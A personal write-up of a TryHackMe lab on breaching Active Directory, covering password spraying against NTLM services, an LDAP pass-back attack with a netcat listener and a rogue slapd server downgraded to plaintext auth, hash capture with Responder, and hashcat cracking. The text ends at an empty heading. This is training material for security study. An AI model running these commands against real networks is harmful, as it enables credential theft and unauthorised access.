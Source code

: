 # breaching AD
Before we can exploit AD misconfigurations for privilege escalation, lateral movement, and goal execution, you need initial access first. You need to acquire an initial set of valid AD credentials. Due to the number of AD services and features, the attack surface for gaining an initial set of AD credentials is usually significant. In this room, we will discuss several avenues, but this is by no means an exhaustive list. 

## OSINT and Phishing

Use sites as [HaveIBeenpwned](https://haveibeenpwned.com/), GitHub and other to search for data leaks.

## NTLM Authenticated Services

Examples of NetNTLM servicies

1. Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (OWA) login portal.
2. Remote Desktop Protocol (RDP) service of a server being exposed to the internet.
3. Exposed VPN endpoints that were integrated with AD.
4. Web applications that are internet-facing and make use of NetNTLM.

### Password spraying attack
Instead choosing one user and try to brute force passwords. We will choose one password and try different usernames.
[Python Script](ntlm_passwordspray.py)
<pre>python3 ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/</pre>

## LDAP Bind Credentials

### LDAP Pass-back Attacks
In an LDAP Pass-back attack, we can modify this IP to our IP and then test the LDAP configuration, which will force the device to attempt LDAP authentication to our rogue device. We can intercept this authentication attempt to recover the LDAP credentials.

Default port of LDAP is 389.

So we can start listening. 
<pre>sudo nc -lvp 389</pre>

#### supportedCapabilities
<pre>
Listening on 0.0.0.0 389
Connection received on 10.200.32.201 54017
0�Dc�;

x�
  objectclass0�supportedCapabilities
</pre>

If it looks like this `supportedCapabilities` means the connection is not secure and we need to configurate better more secure server

### Hosting a Rogue LDAP Server

<pre>
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd

sudo dpkg-reconfigure -p low slapd
</pre>

1. Press no.

2. For the domain name choose `za.tryhackme.com`, for the organization choose `za.tryhackme.com` as well.

3. Choose a password. 

4. Select MDB database to use

5. For the last two options, ensure the database is not removed when purged.

6. setup the `olcSaslSecProps.ldif` file

<pre>#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcr</pre>

<pre> sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms</pre>

7. Setup listener
<pre> sudo tcpdump -SX -i breachad tcp port 389</pre>

8. Set your IP and you are ready to go

## Authentication Relays

Start listener 

<pre>sudo responder -I breachad</pre>

You can get Username and Hash from communication

crack it
<pre>hashcat -m 5600 <hash file> <password file> --force</pre>

## Microsoft Deployment Toolkit
